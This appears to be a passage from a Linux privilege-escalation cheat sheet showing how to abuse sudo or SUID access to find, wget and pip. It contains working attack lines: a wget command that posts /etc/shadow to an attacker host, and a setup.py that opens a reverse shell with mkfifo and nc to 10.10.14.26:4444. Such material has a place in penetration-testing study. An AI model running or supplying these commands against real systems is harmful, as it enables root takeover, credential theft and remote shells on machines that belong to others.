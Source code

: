 ### find

If find is suid, we can use

```none
touch foo
find foo -exec whoami \;
```

Here, the foo file (a blank file) is created using the touch command as the -exec parameter of the find command will execute the given command for every file that it finds, so by using “find foo” it is ensured they only execute once. The above command will be executed as root.

HollyGrace has mentioned this in [Linux PrivEsc: Abusing SUID](https://www.gracefulsecurity.com/linux-privesc-abusing-suid/) More can be learn [How-I-got-root-with-sudo](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/).

### wget

If the user has permission to run wget as sudo, we can read files (if the user whom we are sudo-ing have the permisson to read) by using --post-file parameter

```none
post_file = file   -- Use POST as the method for all HTTP requests and send the contents of file in the request body. The same as ‘--post-file=file’.
```

Example:

```none
sudo -u root wget --post-file=/etc/shadow http://AttackerIP:Port
```

On the attacker side, there can be a nc listener. The above would send the contents of /etc/shadow to the listener in the post request.

### Package Installation

**pip**

If the user have been provided permission to install packages as a sudo for example

```none
User username may run the following commands on hostname:
(root) /usr/bin/pip install *
```

We can exploit this by creating a custom pip package which would provide us a shell.

First, create a folder (Let's name it helloworld), and create two files setup.py and helloworld.py

```none
username@hostname:/tmp/helloworld$ ls
helloworld.py setup.py
```

Let's see, what setup.py contains

```none
cat setup.py

from setuptools import setup
import os
print os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.26 4444 >/tmp/f")

setup(
    name='helloworld-script',    # This is the name of your PyPI-package.
    version='0.1',               # Update the version number for new releases
    scripts=['helloworld']       # The name of your scipt, and also the command you'll be using for calling it
)
```